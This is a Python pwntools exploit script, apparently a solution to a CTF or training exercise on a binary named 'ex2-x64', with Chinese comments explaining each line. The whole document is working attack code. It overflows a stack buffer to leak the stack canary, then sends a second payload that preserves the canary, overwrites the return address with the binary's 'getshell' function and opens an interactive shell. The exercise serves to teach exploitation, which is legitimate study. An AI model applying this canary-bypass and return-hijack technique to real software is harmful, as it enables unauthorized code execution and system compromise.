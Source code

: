 #!/usr/bin/env python

from pwn import *

context.binary = 'ex2-x64'
# context.log_level = 'debug'
io = process('./ex2-x64')

get_shell = ELF("./ex2-x64").sym["getshell"] # 这里是得到getshell函数的起始地址

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100 + "A" * 4 # 这里再加4个 A 是因为 100 模 8 是 4 ，如果不补齐 8 位，则无法覆盖canary后面的 \x00
io.sendline(payload) # 这里使用 sendline() 会在payload后面追加一个换行符 '\n' 对应的十六进制就是0xa

io.recvuntil("A"*104)
Canary = u64(io.recv(8))-0xa # 这里减去0xa是为了减去上面的换行符，得到真正的 Canary
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = b"\x90"*104+p64(Canary)+b"\x90"*8+p64(get_shell) # 使用getshell的函数地址覆盖原来的返回地址
io.send(payload)

io.recv()

io.interactive()